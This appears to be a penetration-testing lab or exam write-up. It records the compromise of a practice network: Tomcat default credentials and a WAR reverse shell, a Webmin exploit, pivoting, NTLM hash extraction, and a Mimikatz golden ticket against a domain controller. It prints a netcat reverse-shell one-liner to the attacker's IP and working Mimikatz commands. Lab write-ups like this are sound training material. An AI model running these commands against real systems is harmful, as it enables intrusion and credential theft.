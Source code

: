 Name: Aldi Satria
IP Target : 172.16.25.0/24
Date: May 2, 2025
Email: aldisatria1996@gmail.com

# 1. Introduction

To establish the connection, we used OpenVPN as the VPN client.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502191706.png)
After successfully connecting, we verified our IP address using the `ifconfig` command and obtained the IP `172.16.250.29`, which we recorded as the attacker's IP address.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502200314.png)
# 2. Reconnaisance 
Next, I performed an Nmap scan to identify live hosts within the `172.16.25.0/24` subnet. As previously mentioned, the IP address `172.16.15.1` is out of scope for this exam. The scan revealed only one live host: `172.16.25.2`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502191823.png)
We focused our attention on `172.16.25.2` and performed a service and version detection scan using the command `nmap -sC -sV`. The scan revealed several open ports, including web services on ports `80` and `8180`, and notably, port `8080` running **Apache Tomcat version 5.5**, which could be of interest for further exploitation.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503072125.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503072154.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503072210.png)
# 3. Initial Access
## a. Apache Tomcat
We attempted to access the Apache Tomcat web server by visiting `http://172.16.25.2:8180` and began exploring the web interface. When accessing the **Tomcat Manager**, we encountered basic authentication. I then searched for default Apache Tomcat credentials and found that the credentials `tomcat:tomcat` were valid for this server.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502194243.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502200105.png)
After logging in, we discovered a file upload feature. We attempted to upload a JSP reverse shell, which we generated using `msfvenom`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502200143.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502201531.png)
Upon uploading the file, the server returned an error, indicating that the upload must be in `.war` format. We then recreated the reverse shell as a `.war` file, uploaded it, and successfully gained a shell on the target system.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502201150.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502203000.png)
## b. Linux Shell
Once we had shell access, we checked the `/etc/passwd` file and found two interesting users: `prod-admin` and `msfadmin`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502203550.png)
Next, we accessed `/home/prod-admin` and found a text file containing credentials. Initially, we speculated that these might be SSH credentials.
```
Support User Credential:
User : support
Pass : support@123

Prod-admin Credential: 

User: prod-admin
Pass: Pr0d!@#$%
```

![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502203805.png)
We tried to SSH into 172.16.25.2 using those credentials, but none of them worked.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502205617.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502210731.png)
We then reconsidered our assumption that the credentials were for SSH and checked for other users in `/etc/passwd`. We tried logging in with the default credentials `msfadmin:msfadmin` (for the `msfadmin` user), and this successfully granted us access.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502210536.png)
While exploring the shell as `msfadmin`, we ran the `ifconfig` command and discovered another network interface connected to an internal network: `10.10.10.0/24`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502211042.png)
We used Nmap with the `-Pn` flag to perform a host discovery scan on the internal network. For each live host identified, we checked for open ports. While `10.10.10.1` had no open ports.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502212459.png)
nmap result for 10.10.10.2
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502213143.png)
nmap result for 10.10.10.3
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502213446.png)
nmap result for 10.10.10.4
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502213805.png)
nmap result for 10.10.10.5
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502214254.png)
## c. Network Pivoting
As the next step, we initiated **network pivoting** using **proxychains** to facilitate access to the internal network.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502211841.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502211954.png)
After configuring `proxychains`, we tested connectivity using the `nc` (netcat) command to confirm the setup. The test was successful.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502212151.png)
## d. 10.10.10.3
When we accessed `http://10.10.10.3:10000`, we found a **webmin login page**, which indicated a potentially valuable target for further exploitation.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502215940.png)
Using `searchsploit`, we found an exploit titled **“Package Update Escape Bypass RCE”**, and we decided to use Metasploit to exploit it.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502221723.png)
We configured the necessary variables in Metasploit and used the credentials found earlier in the `prod-admin` directory (`support:support@123`). The exploit was successful, and we obtained a shell on the internal machine.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502223520.png)
For easier access, we set up an `nc` listener to obtain another reverse shell, and it was successful.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.250.29 5555 >/tmp/f
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502224006.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502224046.png)
After further exploration, we discovered that `child-admin.keytab` is part of the Kerberos authentication system. Since we could not SCP the `child-admin.keytab` file, we converted it to Base64 and copied the Base64-encoded data to our local machine.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502224725.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502230925.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502230944.png)
We used this tool to extract the NTLM hash from the keytab file and successfully obtained the NTLM hash for the `child-admin` user.
https://github.com/sosdave/KeyTabExtract
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502231222.png)
```
dbac2b57a73bb883422658d2aea36967
```

## e. 10.10.10.2
After obtaining the NTLM hash, we used `impacket-psexec` to log into the shell using the hash on 10.10.10.2, as the IP had Kerberos service, and we successfully logged in.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250502232758.png)
We used tools from PowerSploit ([https://github.com/PowerShellMafia/PowerSploit.git](https://github.com/PowerShellMafia/PowerSploit.git)) to gather information about the Windows server. We set up a mini web server to retrieve tools from our local machine and imported the `PowerView.ps1` module. We then used commands to obtain the Security Identifier (SID) of the domain.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503003406.png)
```
Get-DomainSID -Domain child.redteam.corp
S-1-5-21-2332039752-785340267-2377082902

Get-DomainSID -Domain redteam.corp
S-1-5-21-1882140339-3759710628-635303199

```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503011259.png)
# 4. Privilege Escalation
To obtain the Kerberos `krbtgt` hash, we executed Mimikatz on the compromised system. Mimikatz was transferred in the same manner as `powerview.ps1` was, using `iwr`.
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503014200.png)
We ran the command `lsadump::lsa /patch` and successfully obtained the `krbtgt` hash.
```
RID  : 000001f6 (502)
User : krbtgt
LM   : 
NTLM : 24dd6646fd7e11b60b6a9508e6fe7e5a
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503014451.png)
With the SID and `krbtgt` hash, we attempted to generate a golden ticket to escalate our privileges to administrator.
```
kerberos::golden /user:Administrator /domain:child.redteam.corp /sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-519 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503015733.png)
run this command to know parentDC from the domain and try acces directory
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503021509.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503022013.png)
As our goal in the exam was to access `secret.xml`, we explored the Administrator directory and successfully located it.
```
type \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\secret.xml
```
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503022043.png)
![](../HTB%20Medium%20-%20TheFrizz/Pasted%20image%2020250503025443.png)
# 5. Conclussion




